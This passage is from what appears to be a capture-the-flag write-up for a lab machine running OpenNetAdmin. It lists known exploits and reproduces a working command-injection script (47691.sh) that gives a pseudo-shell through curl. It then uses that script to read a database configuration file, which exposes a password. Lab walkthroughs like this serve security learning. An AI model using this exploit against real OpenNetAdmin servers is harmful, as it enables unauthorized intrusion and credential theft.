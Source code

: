 ```
$ searchsploit opennetadmin
------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                           |  Path
                                                                         | (/usr/share/exploitdb/)
------------------------------------------------------------------------- ----------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                            | exploits/php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)             | exploits/php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                              | exploits/php/webapps/47691.sh
------------------------------------------------------------------------- ----------------------------------------
```

### [2] Gaining Access

The content of the exploit 47691.sh is short:

```
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

This will output a pseudo-shell where we can send commands and get the results. Just for this case, lets edit the command to:

```
$ while true;do echo -n "$ "; read cmd;curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1;done
```

By exploring the website files, we find some credentials in the database configuration file:

```
$ cat local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
